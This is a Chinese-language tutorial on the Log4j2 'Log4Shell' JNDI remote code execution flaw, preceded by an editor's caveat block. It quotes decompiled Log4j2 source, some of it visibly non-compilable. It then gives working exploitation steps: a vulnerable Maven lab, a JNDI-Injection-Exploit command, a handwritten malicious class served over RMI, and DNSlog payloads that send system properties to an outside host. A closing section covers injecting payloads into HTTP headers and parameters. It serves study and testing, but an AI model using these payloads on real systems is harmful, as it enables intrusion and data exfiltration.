## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：Broad2.x&lt;=2.14.1 statement; pinned2.14.1 lab; JDK limitations only acknowledged near end

代码与实验材料：Full standalone Maven/logger lab, tool and handwritten RMI variants, DNS method and defensive suggestions; handwritten getObjectInstance uses javax.lang.model.element.Name/HashMap and no ObjectFactory contract, should not imply verified remote-loading chain

来源证据范围：Named author/blog, original WeChat and numerous research/tool/news links; missing primary version-specific advisory

- **适用与权限边界（1）**：Overbroad applicability and insufficient application/logging/runtime prerequisites；依据：无需特殊配置; affected components include Redis; 版本范围内的都是存在问题。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **代码与转录边界（2）**：Historical mitigation commands malformed/merged and not a complete fixed-version remediation；依据：Dlog4j2.formatMsgNoLookups=true and combined WAF/properties instruction。相应原代码作为存在此问题的历史样本保留，不能直接当作可运行、成功复现的 PoC；缺失内容需回原稿核对，不据此补造可执行攻击链。

- **证据待核（3）**：Source excerpts are non-compilable pseudocode and should be labeled；依据：int endMatchLen=false; duplicated variables in decompiled excerpt。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# 史上最全 log4j2 远程命令执行漏洞汇总报告

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/HW2-VRg44ZEFcWxBmDk-CA)

> 本文作者：**lzstar-A2** 个人博客：https://www.cnblogs.com/lzstar/
> 
> 文章校对：**myh0st**

2021 年 11 月 24 日，阿里云安全团队向 Apache 官方报告了 Apache Log4j2 远程代码执行漏洞，在 12 月 9 日被国外有人公开 POC，从而导致了一波安全从业人员的疯狂运动，甲方安全从业者加班加点修复漏洞；白帽子们疯狂扫描漏洞并提交 SRC，一度导致一些 SRC 发布公告暂停接收相关漏洞；而黑灰产们已经在自己的挖矿勒索武器库上增加了该漏洞的利用模块。为什么会这么疯狂？

Apache Log4j2 是 Apache 的一个开源项目，Apache Log4j2 是一个基于 Java 的日志记录工具，使用非常广泛，被大量企业和系统索使用，漏洞触发及其简单，攻击者可直接构造恶意请求，触发远程代码执行漏洞。漏洞利用无需特殊配置

#### 影响范围：Apache Log4j 2.x<=2.14.1

**目前为止已知如下组件存在漏洞：**

```
Spring-Boot-strater-log4j2
Apache Struts2
Apache Solr
Apache Flink
Apache Druid
ElasticSearch
Flume
Dubbo
Redis
Logstash
Kafka
vmvare
```

从微信朋友圈的结果来看，此漏洞影响广泛，开源组件中有近两万项目使用该存在漏洞的模块，绝对是目前为止影响最为广泛的漏洞，堪比之前出现的 heartbleed（心脏滴血）漏洞。比如 vmvare 的公告：  



至漏洞爆发开始，为了体现该漏洞的影响，甚至有了漏洞打地球的趣图，详情参考《[核弹级漏洞公开，昨晚你睡着了么？](https://mp.weixin.qq.com/s?__biz=MzI5MDQ2NjExOQ==&mid=2247496216&idx=1&sn=2c85e1ad985e8a37c5ec2b7a5bded7cd&scene=21#wechat_redirect)》，除了文中的还有入侵汽车、借用 WIFI 名称钓鱼的，从线上到线下广泛应用：


看到这里，这个漏洞是不是很好玩儿？

#### 漏洞是怎么回事？

关于漏洞原理可以参考文章 [《Log4j2 研究之 lookup》](https://mp.weixin.qq.com/s?__biz=MzUzNTEyMTE0Mw==&mid=2247485584&idx=1&sn=2fad11942986807ea7545f7b8b5d6af8&scene=21#wechat_redirect), 强烈推荐 idea，ctrl 直接点进去看源码，下面是触发漏洞的关键代码：

1、org.apache.logging.log4j.core.pattern.MessagePatternConverter 的 `format()` 方法（表达式内容替换）：

```
public void format(final LogEvent event, final StringBuilder toAppendTo) {
        Message msg = event.getMessage();
        if (msg instanceof StringBuilderFormattable) {
            boolean doRender = this.textRenderer != null;
            StringBuilder workingBuilder = doRender ? new StringBuilder(80) : toAppendTo;
            int offset = workingBuilder.length();
            if (msg instanceof MultiFormatStringBuilderFormattable) {
                ((MultiFormatStringBuilderFormattable)msg).formatTo(this.formats, workingBuilder);
            } else {
                ((StringBuilderFormattable)msg).formatTo(workingBuilder);
            }
            if (this.config != null && !this.noLookups) {
                for(int i = offset; i < workingBuilder.length() - 1; ++i) {
                    if (workingBuilder.charAt(i) == '$' && workingBuilder.charAt(i + 1) == '{') {
                        String value = workingBuilder.substring(offset, workingBuilder.length());
                        workingBuilder.setLength(offset);
                        workingBuilder.append(this.config.getStrSubstitutor().replace(event, value));
                    }
                }
            }
            if (doRender) {
                this.textRenderer.render(workingBuilder, toAppendTo);
            }
        } else {
            if (msg != null) {
                String result;
                if (msg instanceof MultiformatMessage) {
                    result = ((MultiformatMessage)msg).getFormattedMessage(this.formats);
                } else {
                    result = msg.getFormattedMessage();
                }
                if (result != null) {
                    toAppendTo.append(this.config != null && result.contains("${") ? this.config.getStrSubstitutor().replace(event, result) : result);
                } else {
                    toAppendTo.append("null");
                }
            }
        }
    }
}
```

代码的主要内容就是一旦发现日志中包含 `${` 就会将表达式的内容替换为表达式解析后的内容，而不是表达式本身，从而导致攻击者构造符合要求的表达式供系统执行。在 `${` 中可以使用的关键词如下：  

```
${ctx:loginId}
${map:type}
${filename}
${date:MM-dd-yyyy}
${docker:containerId}
${docker:containerName}
${docker:imageName}
${env:USER}
${event:Marker}
${mdc:UserId}
${java:runtime}
${java:vm}
${java:os}
${jndi:logging/context-name}
${hostName}
${docker:containerId}
${k8s:accountName}
${k8s:clusterName}
${k8s:containerId}
${k8s:containerName}
${k8s:host}
${k8s:labels.app}
${k8s:labels.podTemplateHash}
${k8s:masterUrl}
${k8s:namespaceId}
${k8s:namespaceName}
${k8s:podId}
${k8s:podIp}
${k8s:podName}
${k8s:imageId}
${k8s:imageName}
${log4j:configLocation}
${log4j:configParentLocation}
${spring:spring.application.name}
${main:myString}
${main:0}
${main:1}
${main:2}
${main:3}
${main:4}
${main:bar}
${name}
${marker}
${marker:name}
${spring:profiles.active[0]
${sys:logPath}
${web:rootDir}
```

来源：

> https://gist.github.com/bugbountynights/dde69038573db1c12705edb39f9a704a

2、org.apache.logging.log4j.core.lookup.StrSubstitutor（提取字符串，并通过 lookup 进行内容替换）  

```
private int substitute(final LogEvent event, final StringBuilder buf, final int offset, final int length, List<String> priorVariables) {
        StrMatcher prefixMatcher = this.getVariablePrefixMatcher();
        StrMatcher suffixMatcher = this.getVariableSuffixMatcher();
        char escape = this.getEscapeChar();
        StrMatcher valueDelimiterMatcher = this.getValueDelimiterMatcher();
        boolean substitutionInVariablesEnabled = this.isEnableSubstitutionInVariables();
        boolean top = priorVariables == null;
        boolean altered = false;
        int lengthChange = 0;
        char[] chars = this.getChars(buf);
        int bufEnd = offset + length;
        int pos = offset;
        while(true) {
            label117:
            while(pos < bufEnd) {
                int startMatchLen = prefixMatcher.isMatch(chars, pos, offset, bufEnd);
                if (startMatchLen == 0) {
                    ++pos;
                } else if (pos > offset && chars[pos - 1] == escape) {
                    buf.deleteCharAt(pos - 1);
                    chars = this.getChars(buf);
                    --lengthChange;
                    altered = true;
                    --bufEnd;
                } else {
                    int startPos = pos;
                    pos += startMatchLen;
                    int endMatchLen = false;
                    int nestedVarCount = 0;
                    while(true) {
                        while(true) {
                            if (pos >= bufEnd) {
                                continue label117;
                            }
                            int endMatchLen;
                            if (substitutionInVariablesEnabled && (endMatchLen = prefixMatcher.isMatch(chars, pos, offset, bufEnd)) != 0) {
                                ++nestedVarCount;
                                pos += endMatchLen;
                            } else {
                                endMatchLen = suffixMatcher.isMatch(chars, pos, offset, bufEnd);
                                if (endMatchLen == 0) {
                                    ++pos;
                                } else {
                                    if (nestedVarCount == 0) {
                                        String varNameExpr = new String(chars, startPos + startMatchLen, pos - startPos - startMatchLen);
                                        if (substitutionInVariablesEnabled) {
                                            StringBuilder bufName = new StringBuilder(varNameExpr);
                                            this.substitute(event, bufName, 0, bufName.length());
                                            varNameExpr = bufName.toString();
                                        }
                                        pos += endMatchLen;
                                        String varName = varNameExpr;
                                        String varDefaultValue = null;
                                        int i;
                                        int valueDelimiterMatchLen;
                                        if (valueDelimiterMatcher != null) {
                                            char[] varNameExprChars = varNameExpr.toCharArray();
                                            int valueDelimiterMatchLen = false;
                                            label100:
                                            for(i = 0; i < varNameExprChars.length && (substitutionInVariablesEnabled || prefixMatcher.isMatch(varNameExprChars, i, i, varNameExprChars.length) == 0); ++i) {
                                                if (this.valueEscapeDelimiterMatcher != null) {
                                                    int matchLen = this.valueEscapeDelimiterMatcher.isMatch(varNameExprChars, i);
                                                    if (matchLen != 0) {
                                                        String varNamePrefix = varNameExpr.substring(0, i) + ':';
                                                        varName = varNamePrefix + varNameExpr.substring(i + matchLen - 1);
                                                        int j = i + matchLen;
                                                        while(true) {
                                                            if (j >= varNameExprChars.length) {
                                                                break label100;
                                                            }
                                                            if ((valueDelimiterMatchLen = valueDelimiterMatcher.isMatch(varNameExprChars, j)) != 0) {
                                                                varName = varNamePrefix + varNameExpr.substring(i + matchLen, j);
                                                                varDefaultValue = varNameExpr.substring(j + valueDelimiterMatchLen);
                                                                break label100;
                                                            }
                                                            ++j;
                                                        }
                                                    }
                                                    if ((valueDelimiterMatchLen = valueDelimiterMatcher.isMatch(varNameExprChars, i)) != 0) {
                                                        varName = varNameExpr.substring(0, i);
                                                        varDefaultValue = varNameExpr.substring(i + valueDelimiterMatchLen);
                                                        break;
                                                    }
                                                } else if ((valueDelimiterMatchLen = valueDelimiterMatcher.isMatch(varNameExprChars, i)) != 0) {
                                                    varName = varNameExpr.substring(0, i);
                                                    varDefaultValue = varNameExpr.substring(i + valueDelimiterMatchLen);
                                                    break;
                                                }
                                            }
                                        }
                                        if (priorVariables == null) {
                                            priorVariables = new ArrayList();
                                            ((List)priorVariables).add(new String(chars, offset, length + lengthChange));
                                        }
                                        this.checkCyclicSubstitution(varName, (List)priorVariables);
                                        ((List)priorVariables).add(varName);
                                        String varValue = this.resolveVariable(event, varName, buf, startPos, pos);
                                        if (varValue == null) {
                                            varValue = varDefaultValue;
                                        }
                                        if (varValue != null) {
                                            valueDelimiterMatchLen = varValue.length();
                                            buf.replace(startPos, pos, varValue);
                                            altered = true;
                                            i = this.substitute(event, buf, startPos, valueDelimiterMatchLen, (List)priorVariables);
                                            i += valueDelimiterMatchLen - (pos - startPos);
                                            pos += i;
                                            bufEnd += i;
                                            lengthChange += i;
                                            chars = this.getChars(buf);
                                        }
                                        ((List)priorVariables).remove(((List)priorVariables).size() - 1);
                                        continue label117;
                                    }
                                    --nestedVarCount;
                                    pos += endMatchLen;
                                }
                            }
                        }
                    }
                }
            }
            if (top) {
                return altered ? 1 : 0;
            }
            return lengthChange;
        }
    }
```

总结一下  

日志在打印时当遇到 `${` 后，Interpolator 类以 `:` 号作为分割，将表达式内容分割成两部分，前面部分作为 prefix，后面部分作为 key。然后通过 prefix 去找对应的 lookup，通过对应的 lookup 实例调用 lookup 方法，最后将 key 作为参数带入执行。

#### 知道原理如何构造 Payload 利用

log4j2 支持很多协议，例如通过 ldap 查找变量，通过 docker 查找变量，详细参考这里：

> https://www.docs4dev.com/docs/zh/log4j2/2.x/all/manual-lookups.html

从网上大家的测试来看，主要使用 ldap 来构造 payload：

```
${jndi:ldap://xxx.xxx.xxx.xxx/exp}
```

最终效果就是通过 jndi 注入，借助 ldap 服务来下载执行恶意 payload，从而执行命令，整个利用流程如图：



整个利用流程分两步：

第一步：向目标发送指定 payload，目标对 payload 进行解析执行，然后会通过 ldap 链接远程服务，当 ldap 服务收到请求之后，将请求进行重定向到恶意 java class 的地址。

第二步：目标服务器收到重定向请求之后，下载恶意 class 并执行其中的代码，从而执行系统命令。

#### 靶场搭建

在进行漏洞测试之前，首先部署一个漏洞靶场供测试之用。

1、maven pom.xml: 导入 log4j-core 和 log4j-api 既可（2.14.1 及其以下）

```
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>
    <groupId>org.example</groupId>
    <artifactId>log4j-rce</artifactId>
    <version>1.0-SNAPSHOT</version>
    <dependencies>
        <!-- https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core -->
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-core</artifactId>
            <version>2.14.1</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-api -->
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-api</artifactId>
            <version>2.14.1</version>
        </dependency>
    </dependencies>
</project>
```

2、main 入口类  

```
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
public class log4j {
    private static final Logger logger = LogManager.getLogger(log4j.class);
    public static void main(String[] args) {
        logger.error("${jndi:ldap://127.0.0.1:1389/tsslma}");
}
}
```

多种方法漏洞利用  

##### 方法一：利用 JNDI 注入器

1、github 下载 jndi 注入器（下载 jar 包即可）

> https://github.com/welk1n/JNDI-Injection-Exploit/releases

2、运行 jar 包，开启服务

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "C:\Windows\WinSxS\wow64_microsoft-windows-calc_31bf3856ad364e35_10.0.19041.1_none_6a03b910ee7a4073\calc.exe" -A "127.0.0.1"
```

**参数说明**  

*   -c ：远程 class 文件中要执行的命令。
    
*   -A ：服务器地址，可以是 ip 或者域名
    

**注意事项**

*   要确保 1099,1389，8180 端口可用，或下载源码在 run.ServerStart 类 26~28 行更改默认端口，再打包成 jar 包运行
    
*   命令会作为参数传入 `Runtime.getRuntime().exec()`，所以需要确保命令传入 `exec()` 方法可执行。
    
*   bash 等可在 shell 直接执行的相关命令需要加双引号，比如说 `java -jar JNDI.jar -C "bash -c ..."`
    

3、根据 cmd 日志拼接 log4j2 打印的日志



由控制台打印的日志可知，jdk1.8 ldap 协议的临时生成的类为 kk1i3g，log4j 日志打印

```
${jndi:ldap://127.0.0.1:1389/kk1i3g}
```

4、运行 main 入口类，打印 log4j2 日志，弹出计算器  



##### 方法二：根据 jndi 注入原理自己编写

1、在 java 下新建 exp 包

2、在 exp 下新建需要被注入的类

```
package exp;
import javax.lang.model.element.Name;
import javax.naming.Context;
import java.io.BufferedInputStream;
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;
import java.util.HashMap;
public class EvilObj {
    public static void exec(String cmd) throws IOException {
        String sb = "";
        BufferedInputStream bufferedInputStream = new BufferedInputStream(Runtime.getRuntime().exec(cmd).getInputStream());
        BufferedReader inBr = new BufferedReader(new InputStreamReader(bufferedInputStream));
        String lineStr;
        while((lineStr = inBr.readLine()) != null){
            sb += lineStr+"\n";
        }
        inBr.close();
        inBr.close();
    }
    public Object getObjectInstance(Object obj, Name name, Context context, HashMap<?, ?> environment) throws Exception{
        return null;
    }
    static {
        try{
            //需要执行的命令
            exec("C:\\Windows\\WinSxS\\wow64_microsoft-windows-calc_31bf3856ad364e35_10.0.19041.1_none_6a03b910ee7a4073\\calc.exe");
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

3、创建服务类  

```
package exp;
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
public class Server {
    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
        Registry registry = LocateRegistry.createRegistry(1099);
//        String url = "http://110.40.250.105/jndiRemote/";
        String url = "http://127.0.0.1:6666/";
        System.out.println("Create RMI registry on port 1099");
        Reference reference = new Reference("exp.EvilObj", "exp.EvilObj", url);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("evil", referenceWrapper);
    }
}
```

加了两个文件的目录结构为：  



4、在编译好的 EvilObj 目录下 cmd，执行 `python -m http.server 6666` 打开 http 服务（在本地其实不打开也访问的到）



5、log4j 的 main 方法打印 

> logger.error("${jndi:rmi://localhost:1099/evil}");

6、启动 Server，启动 log4j，弹出计算器



##### 方法三：利用 dnslog 检测并外带数据

1、访问 https://log.xn--9tr.com/，点击 Get SubDomain 获取域名（当然也可以选择其他平台，比如 dnslog、ceye 等）：



2、拼接日志（将域名加进日志里面）

```
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
public class log4j {
    private static final Logger logger = LogManager.getLogger(log4j.class);
    public static void main(String[] args) {
        logger.error("${jndi:ldap://08dc16c2.dns.1433.eu.org./exp}");
}
}
```

3、直接运行步骤 2 的类，浏览器点击 Refresh Record，在浏览器看到回显  



4、外带数据的 payload：

```
${jndi:ldap://${sys:java.version}.collaborator.com}
```

可以获取的数据如图：



**总结: 学习推荐自己实现，不要太依耐工具，实际测试为了效率可以使用工具**

#### 对于黑盒测试而言如何发现漏洞

大家都知道存在漏洞是因为在打日志的时候存在问题，所以对于黑盒测试而言，只要是能够被服务端获取且被记录的地方都是可以触发漏洞的，比如 header 中的 Cookie、User-agent 等，post 或者 get 的参数中，url 中等，这种只能盲打，根据返回结果来判断。

检测漏洞项目参考：

> https://github.com/takito1812/log4j-detect/blob/main/log4j-detect.py



主要在 header 和 参数中增加 payload 进行漏洞触发，可以结合 dnslog 平台实现自动化漏洞发现，攻击图如下：

